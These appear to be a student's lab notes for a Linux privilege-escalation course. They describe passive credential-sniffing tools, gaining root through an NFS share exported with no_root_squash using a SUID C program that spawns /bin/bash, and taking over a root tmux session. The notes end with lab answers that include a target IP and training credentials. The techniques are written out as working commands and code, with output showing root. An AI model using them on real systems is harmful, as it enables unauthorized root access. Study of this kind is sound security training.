 # Miscellaneous Technique

## Passive Traffic Capture

The following tools are useful for capturing clear text creds, Net-NTLMv2, SMBv2 and/or Kerberos hashes

- tcpdump
- [net-creds](https://github.com/DanMcInerney/net-creds)
- [PCredz](https://github.com/lgandx/PCredz)


### Weak NFS Privileges

- #NFS operates on TCP/UDP port 2049
- #showmount -e TARGET_IP remotely lists NSF accessible mounts

**NFS Options to Set**

Options can be verified in /etc/exports
- root_squash: files created and uploaded by root will be owned by nfsnobody (an unprivileged user). This prevents an attacker from uploading binaries with the SUID bit set
- no_root_squash:  allows for the creation of malicious scripts with the SUID bit set


To demonstrate:
> 1 - With local root, create a binary that executes /bin/sh

> 2 - Mount the /tmp directory locally

> 3 - Copy the root-owned binary 

> 4 - Set the SUID bit

**1. Create /bin/sh executable**

```python
cat shell.c 

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
```

Compile shell.c
```python
htb@NIX02:/tmp$ gcc shell.c -o shell
```

**Steps 2 - 4**

```python
root@Pwnbox:~$ sudo mount -t nfs 10.129.2.12:/tmp /mnt
root@Pwnbox:~$ cp shell /mnt
root@Pwnbox:~$ chmod u+s /mnt/shell
```

```python
htb@NIX02:/tmp$ ./shell
root@NIX02:/tmp# id

uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),1000(htb)
```

## Hijacking Tmux Sessions

Terminal multiplexers like tmux, terminator are used to all multiple terminal sessions in a single console window.
A tmux window can be detached from a session and hijacked if that session is running/ran with elevated permissions.
The following is an example:

**Create tmux directory with a group called 'dev'**
```python
htb@NIX02:~$ tmux -S /shareds new -s debugsess
htb@NIX02:~$ chown root:devs /shareds
```

The goal is to compromise a user in dev group and attach to the tmux session.
Verify any running tmux processes
==In this example the running process will be **tmux -S /shareds new -s debugsess**==
```python
 ps aux | grep tmux
```

**Attach to the tmux session and confirm root privileges**
```python
tmux -S /shareds
```
```python
id
```


# Questions: Misc Techniques

**Target IP**
```
10.129.2.210
```

**Username**
```
htb-student
```

**Password**
```
Academy_LLPE!
```

**SSH**
```
ssh htb-student@10.129.2.210
```

What shares are currently mounted?
```
htb-student@NIX02:~$ showmount -e 10.129.2.210
Export list for 10.129.2.210:
/tmp             *
/var/nfs/general *
```

#shares
```
tmp
```
```
/var/nfs/general
```

Verify what options are currently set for NFS

The ==no_root_squash== option is set
```
htb-student@NIX02:~$ cat /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/var/nfs/general *(rw,no_root_squash)
/tmp *(rw,no_root_squash)
```

Create mounting point
```
mkdir mnt
```

Attempt mount
```
sudo mount -t nfs NIX02:/var/nfs/general /mnt
```

